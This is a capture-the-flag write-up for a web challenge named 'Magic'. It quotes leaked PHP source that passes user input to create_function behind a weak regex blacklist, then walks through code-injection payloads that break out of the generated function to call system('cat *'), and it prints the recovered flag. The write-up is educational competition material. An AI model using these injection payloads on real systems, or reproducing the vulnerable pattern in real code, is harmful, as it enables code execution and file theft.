


# Table of contents
- ## [Magic](#challenge-name--magic)
  
---

# Notes

### PC environments are Ubuntu and Kali Linux

---

# Challenge Name : Magic

## Information
### Challenge URL 
- http://35.238.173.184/

### Useful endpoints
- http://35.238.173.184/admin.php

### Not useful endpoints
- http://35.238.173.184/rules.html
- http://35.238.173.184/chat.html
- http://35.238.173.184/report.html


By typing something into the form of http://35.238.173.184/admin.php and submit it, it will show information about a deprecated php function `create_function`

Some participants leaked the source code of `admin.php` and it's browsable at http://35.238.173.184/2, we found it using `gobuster`

> Response of http://35.238.173.184/2
```
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

$success = '
<div class="alert alert-success alert-dismissible" role="alert">
    <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
    Function declared.
</div>
';

include "flag.php";

if (isset ($_POST['c']) && !empty ($_POST['c'])) {
    $blacklist = "/mv|rm|exec/i";
    $code = $_POST['c'];
    if(strlen($code)>60) {
        die("too long to execute");
    }
    if(preg_match($blacklist,$code)){
        die("that's blocked");
    }
    $fun = create_function('$flag', $code);
    print($success);

}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Bug Bounty</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css" integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous" />
    <link rel="stylesheet" type="text/css" href="css/style.css" />
</head>
<body>
<header>

...
```

It's safe to say the exploit is `create_function`

## Our solution

First, on php manual https://www.php.net/manual/en/function.create-function.php, it was stated that the function `create_function`  _internally performs eval()_, so we tried `echo "test";` as our first payload, but nothing works.

Then, from the leaked source code, we noticed that `display_errors`,`error_reporting` are turned on. Maybe we need to trigger some error to print the value of flag? But we don't get any good result from here either.

Lastly, we decided to have a look on the source code of `create_function` on github. 

https://github.com/php/php-src/commit/ee16d99504f0014c3d292809da927fb622293f41#diff-edb36f5f855ff35b1fedf54f66a089b9cf76dcad42eb94a3db70e0b88a0fe95fL1901

turns out `create_function` does something like this internally.
```
    create a char* variable

    append 
        "function " + 
        $SOME_DYNAMIC_NAME + 
        "(" + 
        $LIST_OF_ARGUMENTS + 
        ")" + 
        "{" +
        $CODE_TO_EXECUTE +
        "}" +
        "\0"
    into char* variable

    the char* variable are then passed to zend_eval_stringl() to be compiled and executed

```
and $CODE_TO_EXECUTE is the variable that we can control

We constructed a payload to check if we can print anything.

```
}printf("printed some stuff!");function a(){
```



the payload works, so we assumed `echo` will able to print something and after testing it's true.

next we tried payload

```
}system("cat flag.php");function a(){
```
which gave us a fake flag



then we tried a more powerful payload

```
}system("cat *");function a(){
```

and in the output we found the flag!

## Flag: shaktictf{p0tn714l_0f_func710n5_4r3_1nf1n173}

---

## Foot Notes

FYI the real flag is in `1998_Dumb_secrets.php`


---